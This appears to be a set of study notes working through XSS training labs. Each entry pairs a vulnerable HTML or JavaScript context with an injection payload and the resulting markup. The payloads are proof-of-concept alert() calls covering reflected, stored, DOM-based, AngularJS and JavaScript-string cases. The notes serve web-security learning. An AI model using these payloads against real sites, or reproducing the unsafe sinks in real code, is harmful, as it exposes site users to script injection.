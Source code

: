 # XSS Contexts

## XSS between HTML tags

### Reflected XSS into HTML context with nothing encoded
Search for: `<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded
Post new comment: `<script>alert(1)</script>`

## XSS in HTML tag attributes

### Reflected XSS into attribute with angle brackets HTML-encoded
Context:
```html
<input maxlength="600" type="text" placeholder="Search the blog..." name="search" value="{HERE}">
```
Exploit:
```
" onfocus=alert(1) autofocus foo="
```
Result:
```html
<input name="search" value="" onfocus=alert(1) autofocus foo="">
```

### Stored XSS into anchor href attribute with double quotes HTML-encoded
Context:
```html
<a id="author" href="{HERE}">My web</a>
```
Exploit:
```
javascript:alert(1)
```

## DOM-based XSS

### DOM XSS in document.write sink using source location.search
Context:
```js
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
```
Exploit:
```
" onload="alert(1)"
```
Result:
```html
<img src="/resources/images/tracker.gif?searchTerms="" onload="alert(1)">
```

### DOM XSS in document.write sink using source location.search inside a select element
Context:
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
...
document.write('</select>');
```
Exploit:
```
storeId=</option></select><script>alert(1)</script>
```
Result:
```html
<select name="storeId">
    <option selected></option>
</select>
<script>alert(1)</script>

</option>
</select>
```

### DOM XSS in innerHTML sink using source location.search
Context:
```html
<h1><span>0 search results for '</span><span id="searchMessage"></span><span>'</span></h1>
<script>
    function doSearchQuery(query) {
        document.getElementById('searchMessage').innerHTML = query;
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
        doSearchQuery(query);
    }
</script>
```
Exploit:
```
<img src=0 onerror="alert(1)">
```
Result:
```html
<span id="searchMessage"><img src=0 onerror="alert(1)"></span>
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
Context:
```js
$(function() {
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
});
```
Exploit:
```
returnPath=javascript:alert(1)
```
### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
Context:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{HERE}'</h1>
```
Exploit:
```
{{$on.constructor('alert(1)')()}}
```
Result:
```html
<h1 ng-app="" class="ng-scope">0 search results for '{{$on.constructor('alert(1)')()}}'</h1>
```

## XSS into JavaScript

### Reflected XSS into a JavaScript string with single quote and backslash escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
</script><script>alert(1)</script>
```
Result:
```js
var searchTerms = '</script>
<script>alert(1)</script>
';
```
*The reason this works is that the browser first performs HTML parsing to identify the page elements including blocks
of script, and only later performs JavaScript parsing to understand and execute the embedded scripts.*

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
';alert(1);//
```
Result:
```js
var searchTerms = '';alert(1);//';
```

### Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
Context:
```js
var searchTerms = '{HERE}';
```
Exploit:
```
\';alert(1);// 
```
Result:
```js
var searchTerms = '\\';alert(1);// ';
```
Trick is that the \ is also escaped!

### Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
Context:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('{HERE}');">Web</a>
```
Exploit:
```
http://foo.bar&apos;);alert(1);//
```
Result:
```html
<a id="author" href="http://www.foo.bar" onclick="var tracker={track(){}};tracker.track('http://foo.bar');alert(1);//');">Web</a>
```

### Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
Context:
```js
var message = `0 search results for '{HERE}'`;
```
Exploit:
```
${alert(document.domain)}
```
Result:
```js
var message = `0 search results for '${alert(document.domain)}'`;
```